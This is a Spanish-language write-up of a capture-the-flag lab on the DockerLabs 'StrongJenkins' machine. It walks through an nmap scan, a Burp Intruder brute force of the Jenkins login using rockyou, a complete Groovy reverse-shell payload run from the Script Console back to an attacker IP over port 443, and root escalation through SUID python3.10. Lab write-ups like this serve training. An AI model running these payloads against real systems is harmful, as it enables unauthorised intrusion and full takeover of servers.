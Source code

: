 # Máquina StrongJenkins

Dificultad -> Medium

Enlace a la máquina -> [Dockerlabs](https://dockerlabs.es/)

***

## Reconocimiento

Comenzamos realizando un escaneo general con **nmap** sobre la IP de la máquina víctima para ver que puertos tiene abiertos.

```shell
nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
________________________________________________
PORT     STATE SERVICE    REASON
8080/tcp open  http-proxy syn-ack
```

Lanzamos un conjunto de scripts predeterminado con **nmap** para que nos reporte más información relacionada al puerto 22 y 80:

```shell
nmap -sCV -p8080 172.17.0.2 -oN targeted
________________________________________________
PORT     STATE SERVICE VERSION
8080/tcp open  http    Jetty 10.0.20
|_http-title: Site doesnt have a title (text/html;charset=utf-8).
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Jetty(10.0.20)
MAC Address: 02:42:AC:11:00:02 (Unknown)
```

Vemos Jetty que es un servidor http, la versión, y vemos un archivo **robots.txt**. Le echamos un vistazo pero no tiene nada interesante.

***

## Explotación

Tras aplicar **fuzzing** y no encontrar nada interesante, nos disponemos a aplicar **Fuerza bruta** sobre el panel de login de la web.

![Pasted image 20240418152153](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/7e7f5e03-15a7-4650-bea0-00dd9fe95bae)

Interceptamos una petición de **login** con **burpsuite** y la remitimos al **intruder** con el que realizaremos el ataque. En el apartado de **payloads** cargamos el famoso **rockyou**. Indicaremos la posición del **payload** en la **request** que tramitamos, en este caso, en el valor que se le asigna a "**j\_password**", que corresponde al campo de la contraseña.

Y para diferenciar si el login ha sido exitoso o no, he escogido un valor que se devuelve en la propia **url** cuando el login ha sido erróneo. He supuesto que cuando el login sea exitoso, este cambiará o directamente no aparecerá. Añadiremos este campo, como output en las respuestas del **intruder** creando una nueva **regex** en el apartado "**Grep -Extract**" del intruder, y seleccionando el "**loginError**"

![Pasted image 20240417200914](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/ea017b5a-761b-4292-9d1a-1cb372427833)

En la siguiente captura podemos observar que una de las líneas, no devuelve el campo "**loginError**".

![Pasted image 20240417200843](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/b1aaf8ed-55df-49a6-8d8b-b8ac0c2d8905)

Probamos la contraseña, y efectivamente "**rockyou**" es la contraseña correspondiente al usuario **admin** ya que logramos acceder con estas credenciales al panel de administrador.

En el apartado "**Manage Jenkins**", podemos irnos al apartado de "**Script Console**":

![Pasted image 20240418152555](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/4267497d-9c32-4c7b-bbf9-71066ca1b10d)

Donde introduciremos el siguiente **payload** que nos enviará una **reverse shell** a nuestra máquina atacante con **IP** 192.168.1.40 por el **puerto** 443 (para la cual, habrá que ponerse en escucha anteriormente por ejemplo con **netcat** -> "**sudo nc -nlvp 443**"):

```js
String host="192.168.1.40";
int port=443;
String cmd="bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

Le damos a **Run** y estamos dentro de la máquina !

***

### Tratamiento de la tty

***

Realizaremos un breve **tratamiento de la tty** para poder operar de forma cómoda sobre la consola. Los comandos a ejecutar:

```shell
script /dev/null -c bash 
```

(hacemos **ctrl + Z**)

```shell
stty raw -echo; fg
reset xterm
stty rows 62 columns 248
export TERM=xterm
export SHELL=bash
```

Pondremos en rows y columns las columnas y filas que correspondan a la pantalla de nuestra máquina. Una vez hecho esto podemos maniobrar con comodidad, pudiendo hacer Ctrl+L para limpiar la pantalla así como Ctrl+C.

***

## Escalada de privilegios

Filtramos por binarios con permisos **SUID** para ver si podemos ejecutar algo como **root**.

```shell
find / -perm -4000 2>/dev/null
---------------------------------
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/mount
/usr/bin/su
/usr/bin/umount
/usr/bin/python3.10
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
```

Vemos **/usr/bin/python3.10**, este es crítico y podemos abusar de él. Si no sabemos como, siempre podemos consultar [GTFOBins](https://gtfobins.github.io/)

Ejecutamos el siguiente comando como **root**:

```shell
/usr/bin/python3.10 -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

```shell
whoami
---------------
root
```

Hemos alcanzado el nivel de privilegios máximo en la máquina !
